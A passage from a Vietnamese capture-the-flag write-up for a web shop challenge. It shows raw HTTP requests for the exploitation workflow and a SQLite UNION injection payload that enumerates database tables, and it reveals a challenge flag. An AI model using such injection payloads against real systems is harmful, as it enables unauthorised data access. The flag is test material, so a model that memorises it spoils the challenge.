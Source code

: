 ==>OK, payload hoạt động, tức là product_id = 5 đã bị ẩn đi nhưng ta vẫn có thể mua được nó, có thể trong database.py, products_data đầy đủ sẽ là:    

```sql
products_data = [
        ("Laptop", 1.20, "/static/laptop.jpg", "This is a basic laptop", 1),
        ("Phone", 8.99, "/static/phone.jpg", "This is a basic phone", 1),
        ("Tablet", 30.00, "/static/tablet.jpg", "This is a very basic tablet of HOLACTF", 1),
        ("FLAG", 10000, "/static/flag.jpg", "EHCTF{Leak_the_flag}", 1),
        ("Beta_product", 0, "/static/...", "...", 0)
    ]
```

-Mình tóm gọn lại workflow tìm password như sau:    
```Register   ---> Buy-product  --->   order_history ---> Check ```

```bash
POST /register HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Cookie: token=...
username=***payload***&password=123
```

```bash
POST /buy_product HTTP/1.1
Host: 127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Cookie: token=...
product_id=5&number=1
```

```bash
GET /order_history HTTP/1.1
Cookie: token=...
```

-Ta có script tìm password và lấy admin_token: <a href="find_pwd.py">Script admin password nhe</a>

-Sau khi đã xác định được admin password, ta sẽ giải quyết việc tìm thử các table có trong database dựa vào việc inject 1 query khác, đọc các method ở đây [SQLite injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

-Ta thử payload: ```' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table'```, nhưng vấn đề là sau khi inject thành công thì ta có thể xem kết quả inject ở đâu?     

==> Cùng nhìn lại giả thiết (4):

```sql
if type == "username":
        cursor.execute("""
            SELECT p.name, o.quantity, p.price, (o.quantity * p.price) AS total_price
            FROM orders o
            JOIN products p ON o.product_id = p.id
            WHERE o.username LIKE ?
        """, (f"%{input}%",))
```
